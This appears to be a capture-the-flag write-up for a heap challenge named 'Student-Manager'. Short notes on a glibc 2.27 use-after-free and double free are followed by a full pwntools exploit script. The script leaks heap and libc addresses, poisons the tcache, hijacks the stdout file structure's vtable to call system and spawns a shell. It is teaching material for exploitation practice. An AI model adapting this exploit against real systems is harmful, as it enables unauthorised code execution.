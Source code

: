 # Student-Manager

1. malloc_hook and free_hook gets cleared everytime so no way to hijack these hooks.
2. We are left with hijacking file structures now.
3. UAF bug. But allocation size is only 0x28 and we get partial leaks.
4. Thanks to UAF and double free. Since glibc version is 2.27.
5. heap feng shui to get unsorted bin. Point it to stdout_structure
6. _IO_2_1_stdout_ + 0xe8 -> system
7. Hijack _IO_2_1_stdout->vtable_pointer and also bypass vtable_pointer_check and call system.


```python
#!/usr/bin/python3
from pwn import *
"""
typedef struct Student {
	unsigned int student_score;
	long int garbage;
	char name[0x8];
	int score;
}STUDENT;
"""
####Utils
def addstudent(id,name,score):
	io.sendlineafter("choice:","1")
	io.sendlineafter("id:",str(id))
	io.sendlineafter("name:",name)
	io.sendlineafter("score:",str(score))

def viewstudent(id):
	io.sendlineafter("choice:","2")
	io.sendlineafter("id:",str(id))
	id = io.recvline().strip().split(b":")
	name = io.recvline().strip().split(b":")
	score = io.recvline().strip().split(b":")
	return [id,name,score]

def deletestudent(id):
	io.sendlineafter("choice:","3")
	io.sendlineafter("id:",str(id))

####Addr
malloc_hook = 0x3ebc30 
_IO_stdout = 0x3ec760
_IO_file_jumps = 0x3e82a0
system = 0x4f440
_IO_str_jumps = _IO_file_jumps + 0xd0

####Exploit
io = process(["./student_manager"],env={"LD_PRELOAD":"./libc-2.27.so"})
#io = remote("207.246.82.76",9010)
addstudent(0,"H"*0x7,10)
addstudent(1,"BB",10) #1
for i in range(2,5):
	addstudent(i,"HK",10) #2~4
for i in range(3):
	deletestudent(0)
heap_last_bytes = int(viewstudent(0)[2][1],0)
print(f"Heap leak: {hex(heap_last_bytes)}")
addstudent(5,"HK",heap_last_bytes+0x10) #5
addstudent(6,"HK",1) #6
addstudent(7,p64(0x91)[:-1],0x0) #7
for i in range(7):
	deletestudent(1)
deletestudent(1)
libc_last_bytes = int(viewstudent(1)[2][1])&0xffffffff
libc_main_arena = libc_last_bytes-0x60
libc_malloc_hook = libc_main_arena-0x10
libc_base_last_bytes = libc_malloc_hook - malloc_hook
print(f"Libc leak: {hex(libc_last_bytes)}")
print(hex(libc_base_last_bytes+_IO_stdout))
addstudent(8,"HK",(libc_base_last_bytes+_IO_stdout+0xd8)-0x100000000) #8
for i in range(9,11):
	addstudent(i,"HK",(libc_base_last_bytes+_IO_stdout+0xe8)-0x100000000) #9~10
addstudent(11,"HK",1) #11
for i in range(4):
	deletestudent(11)
addstudent(12,"HK",heap_last_bytes+0x60) #12
addstudent(13,"HK",1) #13
addstudent(14,"HK",1) #14
addstudent(15,"\x00",(libc_base_last_bytes+system)-0x100000000) #15
deletestudent(13)
deletestudent(13)
addstudent(16,"HK",heap_last_bytes+0x30) #16
addstudent(17,"HK",1) #17
addstudent(18,"HK",1) #18
addstudent(19,"';sh",(libc_base_last_bytes+_IO_str_jumps-0x38)-0x100000000)
io.interactive()
```


